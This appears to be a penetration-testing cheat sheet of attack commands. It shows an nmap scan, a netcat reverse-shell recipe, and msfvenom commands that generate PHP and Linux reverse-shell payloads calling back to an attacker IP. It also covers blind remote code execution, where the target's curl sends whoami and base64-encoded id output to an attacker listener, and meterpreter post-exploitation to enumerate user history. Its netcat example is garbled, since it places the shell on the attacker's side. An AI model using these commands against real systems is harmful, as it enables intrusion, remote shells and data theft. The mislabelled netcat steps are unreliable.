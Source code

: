 Then if we want to scan the service we can use nmap:

```bash
msf > nmap -sS -sV -p 1234 localhost
```

**Reverse shell with Netcat**

Attacker:

```bash
nc -lvp 8888 -e /bin/bash
```

Target (the IP of the attacker):

```bash
nc -v 192.168.1.1 8888
```

**Generate a reverse shell payload with msfvenom**

```bash
msfvenom --list payloads | grep <keyword>
```

```bash
msfvenom -p php/reverse_php lhost=192.168.0.58 lport=443 -o reverse.php
```

```bash
msfvenom -p linux/x64/shell/reverse_tcp lhost=192.168.0.58 lport=443 -f elf -o reverse443
chmod +x reverse443
```

Note: If you have generated a meterpreter payload shell, you have to use meterpreter in order to receive back the connection

**Blind Remote Code Execution**

Target (Use the Attacker IP)

```bash
curl http://192.168.1.130:53/`whoami`
```

or

```bash
curl http://192.168.1.130:53/`id | base64`
```

Attacker:

```bash
nc -lvp 53
```

Tip: You can also create a reverse shell with `msfvenom` and let the target download it

**Enumerating users history with meterpreter**

* `background`
* `use post/linux/gather/enum_users_history`
* `set SESSION 1`
* `exploit`
